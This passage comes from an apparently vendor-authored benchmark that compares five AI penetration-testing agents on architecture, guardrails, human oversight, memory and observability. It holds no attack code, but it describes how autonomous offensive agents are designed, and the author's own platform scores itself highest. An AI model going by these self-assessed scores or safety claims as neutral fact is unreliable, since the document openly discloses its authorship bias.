**What each row in this matrix means.** Task decomposition is *how a high-level objective ("test this web app") becomes the specific subtasks the agent will execute*. *Explicit todo list with priority* asks whether the agent maintains a structured task list (data structure, not just prose) with priority labels that drive ordering. *Attack-path classification (LLM-driven)* asks whether the system runs a dedicated classifier at session start to pick which attack workflow applies (CVE exploit vs. credential brute force vs. SQL injection vs. XSS, etc.). *Skill-driven decomposition* asks whether the agent picks a curated playbook from a skill library and executes its steps. *Fixed pipeline DAG* asks whether the system has a hard-coded ordering of phases that always run in the same sequence regardless of objective. *Implicit (prompt-only) decomposition* asks whether the agent simply receives the objective in its system prompt and is expected to figure out subtasks on its own with no structural support.

**What the comparison reveals.** Decomposition strategies diverge sharply across the five systems. **RedAmon** is the only one combining two structured mechanisms: an LLM-driven attack-path classifier (`prompts/classification.py`) that picks one of 6 attack workflows at session start, plus an explicit prioritised TODO list (`TodoItem` Pydantic model with status + priority) that the agent reads and updates every iteration. **Shannon** uses the most rigid approach, a hard-coded 5-phase pipeline (Pre-Recon → Recon → Vulnerability Analysis → Exploitation → Reporting) defined in its Temporal workflow. The pipeline is the same for every target; the agent's job is to fill in each phase, not choose between phases. **Strix** uses skill-driven decomposition, its skill library (`strix/skills/` with markdown playbooks for SSRF, path traversal, etc.) is selected by the agent itself based on what it observes, giving runtime flexibility but no top-down structure. **PentAGI** and **PentestGPT** rely entirely on the LLM to decompose implicitly inside the prompt, there is no decomposition data structure in code. The aggregate (RedAmon 2.0, Shannon 1.5, Strix 1.5, PentAGI 1.5, PentestGPT 1.0) is the lowest-variance dimension in the benchmark, but the differences in *kind* of decomposition matter more than the score.

**Operational implications for the operator.** The decomposition strategy directly shapes *how the operator can intervene*. With RedAmon's TODO list, the operator can see exactly which subtasks are pending, in-progress, completed, or blocked, and the next session resumes those TODOs. With Shannon's fixed pipeline, the operator gets predictable phase transitions but cannot easily redirect the agent toward an unexpected attack vector that emerges mid-engagement. With Strix's skill library, the operator can extend the agent's capability by adding a new markdown skill file, but cannot inspect the active decomposition without reading prompts. With PentAGI and PentestGPT, decomposition is invisible, it lives entirely inside the LLM's reasoning, which is fine for short focused tasks but problematic for multi-day engagements where the agent's plan needs to be reviewed and adjusted. For repeatable customer engagements where multiple operators may pick up a session, RedAmon's combination of *attack-path classification* + *explicit TODO list* + *phase-gated workflows* is the most operator-portable.

### 4. Memory & Context

What the agent remembers and how it retrieves prior knowledge.

| Capability | RedAmon | PentAGI | PentestGPT | Strix | Shannon |
|---|:---:|:---:|:---:|:---:|:---:|
| Short-term execution trace | ✅ | ✅ | ✅ | ✅ | ✅ |
| Semantic context compression | ❌ | ✅ | ❌ | ✅ | ❌ |
| Windowed truncation | ✅ | ✅ | ❌ | ❌ | ❌ |
| Persistent knowledge graph (Neo4j / Graphiti) | ✅ | ⚠️ | ❌ | ❌ | ❌ |
| Vector RAG on curated sources | ✅ | ❌ | ❌ | ❌ | ❌ |
| Cross-encoder reranking | ✅ | ❌ | ❌ | ❌ | ❌ |
| Shared wiki / notes across agents | ❌ | ❌ | ❌ | ✅ | ❌ |
| Per-agent message queues | ❌ | ⚠️ | ❌ | ✅ | ⚠️ |
| **Subtotal (max 8.0)** | **6.0** | **4.0** | **1.0** | **4.0** | **1.5** |

**What each row in this matrix means.** Memory architecture determines *what the agent can remember* and *for how long*. *Short-term execution trace* is the universal baseline, the agent has access to recent messages and tool outputs within the current session. *Semantic context compression* asks whether the system actively summarises older context to fit more into the prompt window (LLM-driven, not just truncation). *Windowed truncation* asks whether the system keeps a fixed-size window of recent steps and drops the rest. *Persistent knowledge graph (Neo4j / Graphiti)* asks whether the system writes structured discoveries to a graph database that survives across sessions. *Vector RAG on curated sources* asks whether the agent can retrieve passages from a curated corpus (CVE databases, exploit references, MITRE pages) by semantic similarity. *Cross-encoder reranking* asks whether retrieved passages are re-scored by a more expensive model before being returned to the agent, a quality-vs-cost tradeoff that materially improves precision. *Shared wiki / notes across agents* asks whether multiple agents can read and write a common note store. *Per-agent message queues* asks whether agents communicate through queues rather than shared state.

**What the comparison reveals.** The five systems have made fundamentally different memory bets. **RedAmon** invests in *persistent structured intelligence*, a Neo4j knowledge graph (39+ node types covering attack-chain steps, findings, decisions, failures), plus vector RAG over 7 curated infosec sources, plus cross-encoder reranking (CONFIDENCE ≥ 0.80 threshold). The agent literally reasons over its own discoveries via the `query_graph` tool. **Strix** invests in *inter-agent coordination state*, a shared wiki + per-agent message queues + LLM-driven semantic context compression (`MemoryCompressor`). This fits its dynamic mesh: when agents are spawned at runtime, they need a way to share what they've learned. **PentAGI** has the broadest mechanism count (5 of 8) but with weaker depth, its pgvector store is built-in but its Graphiti/Neo4j integration is *optional* (only deployed if the operator brings up `docker-compose-graphiti.yml`). **Shannon** has the simplest model, short-term trace within each phase, with structured deliverables passed forward to the next phase, but no persistent cross-session memory. **PentestGPT** is the minimalist, short-term trace only, no persistent memory of any kind beyond the file-based session save. The aggregate (RedAmon 6.0, Strix 4.0, PentAGI 4.0, Shannon 1.5, PentestGPT 1.0) shows RedAmon's lead is real but the *kind* of memory matters more than the count.

**Operational implications for the operator.** Memory determines *whether the second engagement on the same target benefits from the first*. With RedAmon, the second session opens with full prior intelligence already loaded, the agent knows what was scanned, what worked, what failed, and what infrastructure was discovered. With Strix's wiki and dynamic agents, in-session coordination is excellent but cross-session continuity depends on operator-curated notes. With PentAGI's optional Graphiti, the operator must opt in to persistence at deployment time and accept the operational complexity (an extra Neo4j container) that comes with it. With Shannon, every session starts from scratch, the only continuity is what the operator manually carries over. With PentestGPT, memory effectively ends when the session ends. For an organisation running repeated engagements on the same customer infrastructure, RedAmon's persistent knowledge graph + vector RAG is the only configuration where the agent actually *gets smarter about that customer over time*; the others are stateless tools that happen to support sessions.

### 5. Tool Selection & Use

How the agent calls external tools and how those calls are validated.

| Capability | RedAmon | PentAGI | PentestGPT | Strix | Shannon |
|---|:---:|:---:|:---:|:---:|:---:|
| MCP server integration | ✅ | ❌ | ❌ | ❌ | ❌ |
| XML-based tool calling | ❌ | ❌ | ❌ | ✅ | ❌ |
| JSON-native tool calling | ✅ | ✅ | ✅ | ❌ | ✅ |
| Structured output validation (Pydantic / Zod) | ✅ | ⚠️ | ❌ | ⚠️ | ✅ |
| Strict runtime schema (Zod + JSON Schema draft-07) | ❌ | ❌ | ❌ | ❌ | ✅ |
| Parallel tool waves | ✅ | ✅ | ❌ | ⚠️ | ✅ |
| Tool-mutex groups (singleton protection) | ✅ | ❌ | ❌ | ❌ | ❌ |
| Dangerous-tool confirmation gate | ✅ | ❌ | ❌ | ❌ | ❌ |
| **Subtotal (max 8.0)** | **6.0** | **2.5** | **1.0** | **2.0** | **4.5** |

**What each row in this matrix means.** Tool selection is *how the agent invokes external commands and how those calls are validated*. *MCP server integration* asks whether the system uses the Model Context Protocol, a JSON-RPC standard that lets tools live in separate containers and be swapped without touching agent code. *XML-based tool calling* and *JSON-native tool calling* identify the wire format the LLM uses to express tool invocations; these are mutually exclusive within a single system. *Structured output validation (Pydantic / Zod)* asks whether the LLM's tool-call output is validated against a schema before execution. *Strict runtime schema (Zod + JSON Schema draft-07)* is the strongest validation tier, combining a TypeScript schema library with the IETF JSON Schema standard. *Parallel tool waves* asks whether the system can execute multiple independent tools concurrently in a single agent step. *Tool-mutex groups (singleton protection)* asks whether the system has explicit protection against two concurrent agents racing on a tool that has shared state inside the sandbox (e.g. the Metasploit console). *Dangerous-tool confirmation gate* asks whether the system pauses for human approval before executing tools that can cause real damage.

**What the comparison reveals.** RedAmon is the only system that **integrates MCP servers**, allowing the four tool servers (network_recon, nuclei, metasploit, nmap) to live in independent Docker containers that can be added, replaced, or scaled without touching the agent code. Shannon has the **strictest schema validation pipeline**: `queue-validation.ts` enforces symmetric deliverable + queue presence (line 105-110), every agent's output passes through Zod schemas (per-vuln-type, lines 84-88), AND those schemas are also exported as JSON Schema draft-07 for downstream tooling. Strix is the only system that uses **XML-based tool invocations**, its `utils.py` actively normalises JSON-style tags into XML format (line 24), a deliberate choice that simplifies parsing for some LLMs. **Parallel tool waves**, the ability to execute multiple independent tools concurrently inside a single agent step, exists in RedAmon (Pydantic-validated `ToolPlan` run via `asyncio.gather`), PentAGI (Go goroutines), and Shannon (Temporal phase-internal parallelism), but is absent from PentestGPT (sequential by design) and the audit could not confirm it inside a single agent step in Strix despite its async-task usage (Strix's `asyncio.create_task` is used for tool isolation, not wave parallelism). RedAmon is also the only system with **tool-mutex groups**: `TOOL_MUTEX_GROUPS = {'metasploit': frozenset({'metasploit_console', 'msf_restart'})}` prevents two concurrent fireteam members or two parallel wave steps from claiming Metasploit at the same time, which would corrupt the singleton's session state. The **dangerous-tool confirmation gate** is RedAmon-only across the entire benchmark, the other systems treat tool execution as automatic regardless of risk, and only RedAmon's gate operates *per-wave* (one Allow/Deny covering every dangerous tool in a parallel plan). The aggregate (RedAmon 6.0, Shannon 4.5, PentAGI 2.5, Strix 2.0, PentestGPT 1.0) reflects this multi-mechanism lead.

**Operational implications for the operator.** Tool integration architecture decides *what happens when the operator wants to add a new tool*. With RedAmon, adding a tool means writing a small MCP server (or extending an existing one) and updating one registry entry; the orchestrator code is untouched. With Shannon's Zod-gated approach, adding a tool means writing a Zod schema for its output and a TypeScript activity that calls it, strict but heavier. With Strix's XML format, adding a tool requires updating the XML parser registry. With PentAGI, tools are baked into the Go codebase under `backend/pkg/tools/` and adding one is a Go contribution. With PentestGPT, "tools" are bash commands the LLM types into the terminal, there is no tool framework to integrate with. The dangerous-tool confirmation gate matters in a separate way: it determines whether the platform can be trusted to run autonomously overnight. RedAmon's gate makes that safe; the others either require constant operator supervision or accept the risk of unintended damage. For an organisation deploying an AI pentester to scale across multiple operators, RedAmon's combination of *MCP swappability* + *mutex protection* + *confirmation gates* is materially less risky than any other configuration.

### 6. Self-Correction & Recovery

How the agent recovers from parse errors, stuck loops, and tool failures.

| Capability | RedAmon | PentAGI | PentestGPT | Strix | Shannon |
|---|:---:|:---:|:---:|:---:|:---:|
| Parse-retry on malformed output | ✅ | ✅ | ⚠️ | ✅ | ✅ |
| Strategic replanning ("Deep Think") | ✅ | ✅ | ❌ | ❌ | ❌ |
| Attack-path fallback (secondary path) | ✅ | ❌ | ❌ | ❌ | ❌ |
| Exponential backoff on transient errors | ✅ | ⚠️ | ⚠️ | ✅ | ✅ |
| Stuck-loop / iteration-cap detection | ✅ | ✅ | ⚠️ | ✅ | ✅ |
| Repeated-call detection | ✅ | ✅ | ❌ | ❌ | ❌ |
| Classified error-code taxonomy | ❌ | ❌ | ❌ | ❌ | ✅ |
| **Subtotal (max 7.0)** | **6.0** | **4.5** | **1.5** | **3.0** | **4.0** |

**What each row in this matrix means.** Self-correction is *what the agent does when something goes wrong*. *Parse-retry on malformed output* asks whether the system retries the LLM call (with the parser error attached as context) when the model emits invalid JSON or a malformed tool call. *Strategic replanning ("Deep Think")* asks whether the agent has a dedicated mechanism for stepping back and re-evaluating its overall approach when local progress stalls, distinct from just retrying the failed step. *Attack-path fallback* asks whether the system can switch to a secondary attack path (e.g. brute-force after CVE exploit fails) without operator intervention. *Exponential backoff on transient errors* asks whether retries use increasing delays to avoid hammering a slow target or rate-limited API. *Stuck-loop / iteration-cap detection* asks whether the system detects when the agent is making no progress and forces a pivot or termination. *Repeated-call detection* asks whether the system notices when the agent tries the same tool with the same arguments multiple times and breaks the loop. *Classified error-code taxonomy* asks whether errors are categorised (retryable vs. non-retryable, transient vs. permanent) rather than treated as opaque exceptions.

**What the comparison reveals.** Self-correction is one of the more even dimensions in the benchmark, every system except PentestGPT has parse retry, stuck-loop detection, and exponential backoff in some form. Three systems differentiate meaningfully. **RedAmon** combines a strategic Deep Think pre-step (triggered on first iteration, phase transition, an unproductive-streak detection over the last N steps, or LLM self-request) with attack-path fallback (the classifier emits a `secondary_attack_path` for when the primary fails) and a **productivity-verdict + same-pattern fingerprint audit** that catches repeated-call loops even when each call reports a 200-OK success, making it the only system that has *both* tactical correction (retry the step) and *strategic* correction (pivot the whole approach) and that detects *successful-but-useless* repetition (the keyword-only detectors in other systems miss this). **PentAGI** has the strongest *internal* self-correction via its `Reflector` MsgchainType (a dedicated agent role that reviews other agents' outputs and triggers replanning) and its repeated-call detector. **Shannon** has the only **classified error-code taxonomy** in the benchmark, its Temporal workflow distinguishes retryable infrastructure errors (network, rate-limit) from non-retryable logic errors (schema validation, scope violation), with separate retry policies for each (`workflows.ts:52-114`). **PentestGPT** has minimal self-correction in its current code path; the legacy v0.15 had retry decorators but the active v1.0 codebase relies primarily on operator pause/resume to recover from problems. The aggregate (RedAmon 6.0, PentAGI 4.5, Shannon 4.0, Strix 3.0, PentestGPT 1.5) reflects RedAmon's lead.

**Operational implications for the operator.** Self-correction determines *how long the agent can run unattended before the operator has to intervene*. With RedAmon's Deep Think + attack-path fallback, an agent that fails the primary CVE exploit path will autonomously try a secondary brute-force path before giving up and asking the operator. With PentAGI's Reflector, output quality stays consistent over long runs because there is a dedicated review agent watching for drift. With Shannon's error taxonomy, transient infrastructure failures are silently retried (Temporal's job) while logic errors immediately escalate, the operator only sees the errors that actually require their attention. With Strix, the agent will try several variations of a failed step but lacks the strategic pivot mechanism. With PentestGPT, the operator must watch the screen because the agent will not recover from an unexpected failure without help. For overnight or weekend autonomous runs, RedAmon's strategic-correction layer is the difference between waking up to a completed engagement vs. waking up to an agent stuck on iteration 3.

### 7. Guardrails & Scope Control

What stops the agent from acting outside the engagement scope.

| Capability | RedAmon | PentAGI | PentestGPT | Strix | Shannon |
|---|:---:|:---:|:---:|:---:|:---:|
| Deterministic domain blocklist (code-level) | ✅ | ❌ | ❌ | ❌ | ⚠️ |
| LLM-based scope check (soft rail) | ✅ | ❌ | ❌ | ⚠️ | ❌ |
| Phase-gated action whitelist | ✅ | ❌ | ❌ | ❌ | ✅ |
| Rules-of-engagement (RoE) framework | ✅ | ❌ | ❌ | ❌ | ⚠️ |
| Tool-confirmation gate | ✅ | ❌ | ❌ | ❌ | ❌ |
| Phase-transition approval gate | ✅ | ❌ | ❌ | ❌ | ❌ |
| Scope-drift detector | ✅ | ❌ | ❌ | ⚠️ | ⚠️ |
| Recursive-agent-deployment ban | ✅ | ❌ | ❌ | ❌ | ❌ |
| **Subtotal (max 8.0)** | **8.0** | **0.0** | **0.0** | **1.0** | **2.0** |

**What each row in this matrix means.** Guardrails determine *what stops the agent from doing something it should not do*. *Deterministic domain blocklist (code-level)* asks whether the system has a hard-coded list of forbidden targets (e.g. .gov, .mil, intergovernmental orgs) that cannot be bypassed by configuration. *LLM-based scope check (soft rail)* asks whether the system asks an LLM at session start whether the requested target is appropriate. *Phase-gated action whitelist* asks whether the agent's tool vocabulary changes depending on phase (an agent in informational phase cannot call exploitation tools). *Rules-of-engagement (RoE) framework* asks whether the system encodes a customer-engagement contract (time windows, scope exclusions, technique gating, severity caps) that the agent must respect. *Tool-confirmation gate* asks whether the system pauses for human approval before executing dangerous tools. *Phase-transition approval gate* asks whether transitions between informational / exploitation / post-exploitation require explicit operator approval. *Scope-drift detector* asks whether the system notices when the agent is acting outside the authorised target list and intervenes. *Recursive-agent-deployment ban* asks whether the system prevents agents from spawning sub-agents indefinitely (a nested fan-out that could exhaust resources or escape oversight).

**What the comparison reveals.** This is the dimension with the **widest gap in the entire benchmark**, RedAmon scores 8.0/8.0; the nearest competitor (Shannon) scores 2.0/8.0; both PentestGPT and PentAGI score 0.0/8.0. The 2026-04-19 audit confirmed by direct grep that PentAGI has zero scope-enforcement code anywhere in `pkg/`, its `guardrail.go` is a Langfuse observability span wrapper, not a security mechanism. PentestGPT's system prompt offers methodology guidance ("if stuck for more than a few attempts, try different attack vectors") but no enforcement. **RedAmon** is the only system that combines all 8 layers: a deterministic non-disableable domain blocklist (TLD patterns + ~200-domain set covering .gov / .mil / .edu / .int / IGOs, mirrored byte-for-byte in TypeScript for frontend pre-flight), an LLM-based soft scope check, phase-gated tool whitelisting via `TOOL_PHASE_MAP`, the ~35-setting RoE framework, the dangerous-tool confirmation gate, the phase-transition approval gate, the runtime scope-drift detector, and the recursive-agent-deployment ban (Fireteam members cannot themselves deploy fireteams). **Shannon** scores 2.0 by virtue of its phase-gated execution (each Temporal phase has a defined set of allowed activities) and its target-type validation. **Strix** has only a soft scope reminder in the prompt, guidance, not enforcement.

**Operational implications for the operator.** The guardrail stack determines *whether the platform can be trusted with paying customer engagements* rather than just demonstrations. With RedAmon, the agent cannot scan a non-authorised target even if the operator types it into the chat, the hard rail blocks at the agent layer and the frontend pre-blocks before the request reaches the agent. With Shannon, the operator can constrain phases but the target itself is not validated against an enforced scope. With Strix, PentAGI, and PentestGPT, the operator is the only line of defence, if they paste the wrong target, the agent will scan it. For an organisation pitching to a regulated customer (financial services, healthcare, government supply chain), a platform without an enforced scope check is a non-starter regardless of how good its other features are. This category is also the one where the **disclosure obligation is most acute**: a benchmark authored by RedAmon will tend to over-detail dimensions where RedAmon leads. External independent re-scoring is invited; the source of every other system is linked in the systems-under-comparison table above and any reviewer can verify these zero-scores by direct grep.

### 8. Human-in-the-Loop

How the operator interacts with the running agent.

| Capability | RedAmon | PentAGI | PentestGPT | Strix | Shannon |
|---|:---:|:---:|:---:|:---:|:---:|
| Pause / resume mid-run | ✅ | ⚠️ | ✅ | ⚠️ | ❌ |
| Mid-run instruction injection | ⚠️ | ❌ | ✅ | ❌ | ❌ |
| Approval gates (phase / tool) | ✅ | ❌ | ❌ | ❌ | ❌ |
| Real-time streaming of agent reasoning | ✅ | ✅ | ✅ | ✅ | ⚠️ |
| Per-tool cancellation | ✅ | ❌ | ❌ | ❌ | ❌ |
| **Subtotal (max 5.0)** | **4.5** | **1.5** | **3.0** | **1.5** | **0.5** |

**What each row in this matrix means.** Human-in-the-loop is *what the operator can do while the agent is running*. *Pause / resume mid-run* asks whether the operator can interrupt the agent and resume it later from the same state. *Mid-run instruction injection* asks whether the operator can send new context to the running agent without restarting it (e.g. "focus on port 22 next"). *Approval gates (phase / tool)* asks whether the system can require explicit operator approval for sensitive actions before they execute. *Real-time streaming of agent reasoning* asks whether the operator sees the agent's thinking and tool execution as it happens, rather than only seeing final results. *Per-tool cancellation* asks whether the operator can kill a single running tool (e.g. a long nmap scan) without halting the entire agent.

**What the comparison reveals.** Real-time streaming is now **table stakes**, every system except Shannon supports it (Shannon's Temporal workers are ephemeral and report only the final result; the operator polls Temporal Web UI for progress, not a live stream). The other four rows split the field meaningfully. **PentestGPT** is the operator-experience champion for *instruction injection*: its TUI offers keyboard-driven pause (Ctrl+P), resume, and arbitrary text injection without leaving the terminal. **RedAmon** has the only **layered approval model**, four distinct pause points (phase transition, dangerous tool, agent question, per-fireteam-member approval) that all use the same underlying state-machine machinery. **RedAmon** is also the only system with **per-tool cancellation**: the operator can kill a specific running tool by composite key (`session|wave|step|tool`) without affecting other concurrent tools or the agent's overall state. **PentAGI** offers partial pause via its "waiting" flow status but only for prompt-driven user-input gates, not arbitrary interruption. **Strix** has tool-output streaming but no first-class pause/resume. **Shannon** is the weakest in this category because its architecture (ephemeral per-scan Temporal workers) is fundamentally incompatible with interactive human oversight, the trade-off it makes for durability. The aggregate (RedAmon 4.5, PentestGPT 3.0, PentAGI 1.5, Strix 1.5, Shannon 0.5) reflects how rare *layered* approval gates are.

**Operational implications for the operator.** Human-in-the-loop capability decides *how the operator works with the agent during long engagements*. With RedAmon, the operator can let the agent run for hours, occasionally swiping through fireteam member panels to approve dangerous tools, periodically stopping a single slow tool, and stepping away knowing that any phase transition will require their approval before proceeding. With PentestGPT, the operator stays in the terminal but enjoys the most fluid pause-inject-resume loop in the benchmark, ideal for tight CTF-style sessions where the operator is actively guiding every step. With PentAGI and Strix, the operator's intervention options are limited to "let it run" or "kill it"; mid-run steering is not really supported. With Shannon, intervention is essentially "wait for it to finish, then read the report." For multi-hour engagements where the operator must be able to step away and trust the agent will pause before doing anything irreversible, RedAmon's layered approval model is the only configuration that matches that workflow.

### 9. Isolation & Multi-Tenancy

Whether multiple operators on multiple projects can safely share an installation.

| Capability | RedAmon | PentAGI | PentestGPT | Strix | Shannon |
|---|:---:|:---:|:---:|:---:|:---:|
| Tenant context propagation (user + project + session) | ✅ | ⚠️ | ❌ | ❌ | ❌ |
| Multi-tenant data separation | ✅ | ⚠️ | ❌ | ❌ | ❌ |
| Sandbox isolation for tool execution | ✅ | ✅ | ✅ | ✅ | ✅ |
| Session isolation | ✅ | ✅ | ✅ | ⚠️ | ✅ |
| **Subtotal (max 4.0)** | **4.0** | **3.0** | **2.0** | **1.5** | **2.0** |

**What each row in this matrix means.** Isolation determines *whether multiple operators on multiple projects can safely share a single installation of the platform*. *Tenant context propagation (user + project + session)* asks whether a `(user_id, project_id, session_id)` triple is captured at request entry and propagated through every internal call, including async tasks and sub-agent spawns. *Multi-tenant data separation* asks whether queries to shared storage (database, knowledge graph) automatically filter by tenant, even when the LLM-generated query doesn't mention the tenant. *Sandbox isolation for tool execution* asks whether tool invocations run inside an isolated container or VM, so a tool crash or a destructive command cannot affect the host or other tenants. *Session isolation* asks whether two sessions on the same project (e.g. one operator running an active scan while another reviews a previous report) have independent state and cannot interfere with each other.

**What the comparison reveals.** Sandbox isolation is **universal**, every system runs tools inside Docker containers (RedAmon's Kali sandbox, PentAGI's per-flow Docker SDK wrapper, PentestGPT's Docker mount, Strix's `DockerRuntime`, Shannon's per-scan Docker container). Session isolation is also widespread, with only Strix scoring partial because its dynamic agents share runtime state more intimately than the others. The decisive rows are *tenant context propagation* and *multi-tenant data separation*. **RedAmon** is the **only system designed from day one as multi-tenant**: a `ContextVar` captures the tenant triple at every async-task creation point, every Neo4j Cypher query is automatically rewritten by `Neo4jToolManager` to inject `WHERE n.user_id = ... AND n.project_id = ...` (the LLM never gets to write that part, so even a deliberately malicious or hallucinated query cannot leak data), and LangGraph checkpoints are keyed by session ID. **PentAGI** has partial multi-tenancy via its PostgreSQL-backed flow state, a flow is owned by a user, but the audit found no automatic filter injection at the database layer. **PentestGPT, Strix, and Shannon** are single-tenant tools, safe for solo use, but installing one for a team would require either one installation per operator or operator-managed discipline to keep projects from cross-contaminating. The aggregate (RedAmon 4.0, PentAGI 3.0, Shannon 2.0, PentestGPT 2.0, Strix 1.5) reflects the fundamental design choice between "operator-machine tool" and "shared platform."

**Operational implications for the operator.** Multi-tenancy decides *the shape of the deployment*. With RedAmon, a single backend installation safely serves an entire pentest team; operators log in with their own credentials, see only their own projects, and can collaborate on a project without seeing other teams' work. The cost is one Postgres + one Neo4j + one MCP sandbox shared across the team. With PentAGI, a single installation can serve a small team but requires careful operational discipline because data separation is partial. With Strix, PentestGPT, and Shannon, the natural deployment model is one installation per operator (or per laptop). For a small consultancy where one operator does all the engagements, this difference is invisible, those tools work fine. For a regulated engagement where an audit must prove that operator A on customer X's engagement could not have read operator B's data on customer Y's engagement, only RedAmon provides that guarantee at the architecture level.

### 10. Domain Knowledge Integration

Whether the agent can query structured infosec knowledge beyond what's in its weights.

| Capability | RedAmon | PentAGI | PentestGPT | Strix | Shannon |
|---|:---:|:---:|:---:|:---:|:---:|
| External knowledge base queryable by agent | ✅ | ❌ | ❌ | ❌ | ❌ |
| CVE / CWE database lookup | ✅ | ❌ | ❌ | ❌ | ❌ |
| MITRE mapping (CWE / CAPEC / ATT&CK) | ✅ | ❌ | ❌ | ❌ | ❌ |
| Curated prompt / skill library | ✅ | ✅ | ⚠️ | ✅ | ✅ |
| Web-search integration | ✅ | ✅ | ❌ | ✅ | ❌ |
| **Subtotal (max 5.0)** | **5.0** | **2.0** | **0.5** | **2.0** | **1.0** |

**What each row in this matrix means.** Domain knowledge integration is *what the agent can look up beyond what's in its trained weights*. *External knowledge base queryable by agent* asks whether the agent can issue queries against a curated infosec corpus (vector-indexed, retrieval-augmented) and receive structured answers it can act on. *CVE / CWE database lookup* asks whether the agent can resolve a CVE identifier or a CWE category and retrieve current metadata (CVSS, EPSS, KEV flag, affected versions). *MITRE mapping (CWE / CAPEC / ATT&CK)* asks whether the agent can translate between security taxonomies, a finding's CWE → its CAPEC attack pattern → the relevant ATT&CK techniques. *Curated prompt / skill library* asks whether the system ships expert playbooks the agent can invoke. *Web-search integration* asks whether the agent can query live web search engines (DuckDuckGo, Tavily, etc.) when the KB cannot answer.

**What the comparison reveals.** Every system that has any skill or prompt library claims "domain knowledge integration," but the matrix exposes a sharp split between **structured knowledge access** (queryable databases the agent can reason over) and **unstructured prompt assistance** (markdown playbooks the LLM reads). **RedAmon** is the only system in the structured tier, it offers a queryable knowledge base over 7 curated infosec sources with vector RAG and cross-encoder reranking, a CVE/CWE database lookup that returns CVSS + EPSS + CISA KEV metadata, and a MITRE mapping that resolves CWE → CAPEC → ATT&CK relationships. The agent can issue queries like *"list all CVEs affecting nginx 1.18 with CISA KEV flag set"* and receive a structured result it can immediately act on. **PentAGI** has 6 web-search backends (DuckDuckGo, Tavily, Google, Perplexity, Traversaal, Searxng) and a prompt template library, but no CVE database, no MITRE mapping, no queryable KB. **Strix** has its skill library (`strix/skills/`) and web search but the same lack of structured lookups. **Shannon** has a YAML config-based skill / role library but no live knowledge access. **PentestGPT** has neither, it relies entirely on the LLM's pre-trained knowledge, which for a Claude-based agent in early 2026 is stale by 6-12 months on CVE specifics. The aggregate (RedAmon 5.0, PentAGI 2.0, Strix 2.0, Shannon 1.0, PentestGPT 0.5) is one of the largest single-system leads in the benchmark.

**Operational implications for the operator.** Domain knowledge integration decides *whether the agent's recommendations are current*. When the agent encounters nginx 1.18, RedAmon can immediately query its CVE database for known vulnerabilities affecting that exact version and return KEV-flagged exploits the agent should try first. The other systems must rely on either web search (slow, unstructured, sometimes wrong) or the LLM's training cutoff (which may not know about a CVE published last month). For CTF-style engagements where the targets are intentionally vulnerable to well-known CVEs, this gap matters less. For real customer engagements where the operator must justify *why* the agent recommended a specific exploit ("we tried CVE-2024-XXXX because it's CISA KEV with EPSS 0.94 affecting your exact nginx version"), only RedAmon can produce that traceable evidence chain. The MITRE mapping is what makes the post-engagement report defensible to compliance teams who think in CWE / CAPEC / ATT&CK rather than raw findings.

### 11. Observability & Cost Tracking

Whether the operator can audit, replay, and budget agent runs.

| Capability | RedAmon | PentAGI | PentestGPT | Strix | Shannon |
|---|:---:|:---:|:---:|:---:|:---:|
| Per-step execution trace persisted | ✅ | ✅ | ⚠️ | ✅ | ✅ |
| Langfuse integration | ❌ | ✅ | ✅ | ❌ | ❌ |
| OpenTelemetry / Traceloop / Jaeger | ❌ | ✅ | ❌ | ✅ | ❌ |
| Per-request cost tracking | ⚠️ | ✅ | ✅ | ✅ | ✅ |
| WebSocket / streaming event protocol | ✅ | ✅ | ✅ | ✅ | ❌ |
| **Subtotal (max 5.0)** | **2.5** | **5.0** | **3.5** | **4.0** | **2.0** |

**What each row in this matrix means.** Observability decides *how the operator audits, debugs, and budgets agent runs*. *Per-step execution trace persisted* asks whether every think iteration, every tool call, every output is written to durable storage in a structured format. *Langfuse integration* asks whether the system ships first-class integration with Langfuse, the LLM-observability platform that tracks generations, prompts, costs, and latencies as a unified view. *OpenTelemetry / Traceloop / Jaeger* asks whether the system emits OTLP-compliant traces to industry-standard distributed-tracing backends. *Per-request cost tracking* asks whether every LLM call's token usage is recorded and converted to USD. *WebSocket / streaming event protocol* asks whether the system exposes a real-time event stream that the frontend can subscribe to (rather than polling for state).

**What the comparison reveals.** This is **PentAGI's category**, and the only category in the entire benchmark where RedAmon is not in the top half. PentAGI ships a full out-of-the-box observability stack: Langfuse for LLM-generation tracking, OpenTelemetry tracing flowing into Jaeger, VictoriaMetrics for metrics, Loki for logs, with the entire pipeline wired up via `docker-compose-observability.yml`. The audit confirmed all five components are deployable as a single command. **PentestGPT** has Langfuse integration in its current code path (`pentestgpt/core/langfuse.py` is imported by `controller.py` and `interface/main.py`) plus per-request cost tracking, plus WebSocket streaming, all clean. **Strix** has OpenTelemetry + Traceloop integration but no Langfuse, plus its own per-event JSONL tracer. **RedAmon** currently has the weakest observability footprint: it persists per-step traces and emits a comprehensive WebSocket event stream, but does not ship Langfuse or OpenTelemetry integration and only partially tracks cost (token counts, not USD conversion). **Shannon** writes append-only audit logs to JSONL files but has no streaming protocol, its operator polls Temporal Web UI or tails log files. The aggregate (PentAGI 5.0, Strix 4.0, PentestGPT 3.5, RedAmon 2.5, Shannon 2.0) is the only category where RedAmon ranks fourth.

**Operational implications for the operator.** Observability gaps surface differently for different deployments. With PentAGI's full stack, an operator running the platform at scale can see in Grafana dashboards which agent role costs the most tokens, which target takes the longest, which tool fails most often, production-grade visibility from day one. With PentestGPT's Langfuse integration, the same per-call cost visibility is available without the operator running a metrics stack. With RedAmon, the operator gets per-step traces and a live WebSocket event feed (sufficient for audit and debugging during the run) but must build their own dashboards and cost rollups if they want production-grade telemetry. The internal benchmark's §5.1.8 explicitly acknowledges this as a known gap, and a Langfuse + OpenTelemetry integration is on the roadmap. For an organisation that already runs a metrics platform (Datadog, Grafana, etc.) and wants the AI pentester's signals to feed into existing dashboards, PentAGI is the easiest fit out of the box; RedAmon would require integration work today.

### 12. Persistence & Recovery

What survives a backend crash.

| Capability | RedAmon | PentAGI | PentestGPT | Strix | Shannon |
|---|:---:|:---:|:---:|:---:|:---:|
| LangGraph checkpointing | ✅ | ❌ | ❌ | ❌ | ❌ |
| Temporal-class durable state | ❌ | ❌ | ❌ | ❌ | ✅ |
| JSON / file session auto-save | ✅ | ✅ | ✅ | ❌ | ⚠️ |
| Workspace / git-checkpoint resume | ❌ | ❌ | ❌ | ❌ | ✅ |
| **Subtotal (max 4.0)** | **2.0** | **1.0** | **1.0** | **0.0** | **2.5** |

